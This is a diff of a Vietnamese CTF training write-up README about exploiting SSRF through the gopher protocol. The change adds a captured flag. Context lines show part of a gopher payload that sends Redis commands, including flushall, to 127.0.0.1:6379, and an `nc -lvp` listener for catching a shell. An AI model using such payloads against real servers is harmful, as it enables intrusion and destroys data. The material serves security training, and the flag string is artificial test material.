

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task8/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/task8/README.md
+++ b/task8/README.md
@@ -87,4 +87,7 @@ gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0As
 - Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...
 
 Kết quả:
+
 ![image](https://user-images.githubusercontent.com/92881216/229142708-d48fb2ea-4a9e-4e82-bd26-41d2635823bf.png)
+
+> `SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`
```
